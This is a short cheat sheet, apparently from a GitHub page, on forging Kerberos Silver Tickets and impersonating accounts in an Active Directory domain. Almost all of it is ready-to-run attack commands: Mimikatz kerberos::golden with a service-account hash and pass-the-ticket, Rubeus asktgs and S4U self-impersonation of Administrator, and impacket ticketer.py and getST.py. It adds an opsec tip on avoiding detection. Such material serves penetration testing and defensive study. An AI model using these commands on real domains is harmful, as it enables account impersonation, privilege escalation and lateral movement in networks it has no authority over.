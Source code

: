 # Silver Ticket

### 1) Create ST

/rc4 take the service account (generally the machine account) hash. /aes128 or /aes256 can be used for AES keys.

    Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:domain.local /sid:<domain_SID> /target:<target>.domain.local /service:CIFS /rc4:<account_hash> /ptt"'

Requesting a ST with a valid TGT can be performed with Rubeus like this:

    .\Rubeus.exe asktgs /ticket:tgt.kirbi /service:LDAP/dc.domain.local,cifs/dc.domain.local /ptt

Another solution, if you don't have the NT hash or the AES keys of the service but you have a TGT for the service account, is to impersonate an account via a request for a service ticket through S4USelf to an alternative service (and the opsec is better since the PAC is consistent):

    .\Rubeus.exe s4u /self /impersonateuser:"Administrator" /altservice:"cifs/target.domain.local" /ticket:"<base64_target_TGT>" /nowrap

## Linux

    ticketer.py -domain domain.local -domain-sid <domain_SID> -spn 'cifs/target' -nthash <account_hash> -user-id <target_RID> -duration <ticket_lifetime_in_day> <target_user>

Another solution, if you don't have the NT hash or the AES keys of the service but you have a TGT for the service account, is to impersonate an account via a request for a service ticket through S4USelf to an alternative service (and the opsec is better since the PAC is consistent):

    export KRB5CCNAME=./target_TGT.ccache
    getST.py -self -impersonate "Administrator" -altservice "cifs/target.domain.local" -k -no-pass "domain.local"/'target$'

MISC

    impacket-ticketer -nthash MACHINE_NT_HASH -domain-sid DOMAIN_SID -domain DOMAIN ANY_USER

    mimikatz "kerberos::golden /sid:CURRENT_USER_SID /domain:DOMAIN_SID /target:TARGET_SERVER /service:TARGET_SERVICE /aes256:COMPUTER_AES256_KEY /user:ANY_USER /ptt"
